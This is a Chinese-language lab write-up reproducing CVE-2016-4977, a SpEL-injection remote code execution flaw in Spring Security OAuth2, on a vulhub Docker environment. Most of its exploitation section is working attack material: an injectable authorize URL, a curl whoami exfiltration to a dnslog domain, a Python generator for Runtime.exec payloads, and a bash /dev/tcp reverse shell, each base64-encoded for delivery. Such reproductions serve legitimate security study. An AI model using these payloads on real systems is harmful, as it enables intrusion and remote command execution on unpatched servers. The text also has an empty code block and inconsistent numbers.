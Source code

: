# Spring Security OAuth2 远程命令执行漏洞（CVE-2016-4977）

### 1.1、漏洞描述

是该版本的Spring的一个错误页面，存在参数获取未进行过滤，导致可以直接对服务器执行系统权限

### 1.2、漏洞原理

[漏洞分析](https://www.cnblogs.com/litlife/p/10380701.html)

Spring Security OAuth2处理认证请求的时候如果使用了whitelabel视图，response_type参数值会被当做Spring SpEL来执行，恶意攻击者通过构造response_type值可以触发远程代码执行漏洞

### 1.3、漏洞等级

高

### 1.4、影响版本

Spring Security OAuth 1.0.0到1.0.5
Spring Security OAuth 2.0.0到2.0.9
Spring Security OAuth 2.0到2.0.14
Spring Security OAuth 2.1到2.1.1
Spring Security OAuth 2.2到2.2.1
Spring Security OAuth 2.3到2.3.2

### 1.5、漏洞复现

#### 1、基础环境

Path：vulhub/spring/CVE-2016-4977

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到

![image-20240414152451052](./imgs/image-20240414152451052.png)

#### 2、漏洞扫描



#### 3、漏洞验证

##### 简单验证

SpEL表达式注入

`/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`

输入admin/admin

![image-20240414152635555](./imgs/image-20240414152635555.png)

可以看到233*233被执行

触发点在：**${233\*233}**

[原理参考](https://www.cnblogs.com/litlife/p/10380701.html)

![image-20240414152705656](./imgs/image-20240414152705656.png)

URL中的SpEL表达式${233*233}已执行成功并返回结果，证明漏洞存在

##### dnsLog验证

![image-20240414212737592](./imgs/image-20240414212737592.png)

```bash
curl `whoami`.gls6xq.dnslog.cn
```

然后进行base64编码

![image-20240414212725903](./imgs/image-20240414212725903.png)

```bash
bash -c {echo,Y3VybCBgd2hvYW1pYC5nbHM2eHEuZG5zbG9nLmNu} |{base64,-d}|{bash,-i}
```

然后使用如下poc

```python
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)  
```

![image-20240414155128000](./imgs/image-20240414155128000.png)

替换上面的 223*223

```

```

![image-20240414155311029](./imgs/image-20240414155311029.png)

刷新dnslog解析



 

### 1.6、深度利用

#### 1、反弹Shell

```
bash -i >& /dev/tcp/172.16.31.4/4567 0>&1
```

进行编码

```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMzEuNC80NTY3IDA+JjE=} |{base64,-d}|{bash,-i}
```



### 1.7、修复建议

版本升级

